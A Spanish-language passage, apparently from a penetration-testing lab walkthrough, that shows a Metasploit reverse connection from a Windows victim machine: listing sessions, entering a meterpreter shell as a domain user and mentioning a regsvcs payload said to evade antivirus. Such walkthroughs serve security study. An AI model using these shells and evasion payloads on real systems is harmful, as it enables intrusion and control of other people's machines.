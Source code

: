 Vemos que se nos ha creado una conexion `reversa` con la maquina `Windows` victima.

Para conectarnos haremos lo siguiente:

```shell
sessions
```

Info:

```
Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x86/windows  CORP\empleado2 @ WS02  192.168.5.205:7777 -> 192.168.5.209:63326 (192.168.5.209)
```

Ahora nos conectamos a la sesion numero `1`:

```shell
sessions 1
```

Info:

```
[*] Starting interaction with 1...

meterpreter > getuid
Server username: CORP\empleado2
```

Y ya veremos que podremos ejecutar comandos mediante un `meterpreter`.

Tambien podremos utilizar otros `payloads` como por ejemplo el de la herramienta `regsvcs` la del numero `22`, que tampoco seria detectado por un `antivirus` y solo tendremos que seguir el mismo proceso que el anterior.
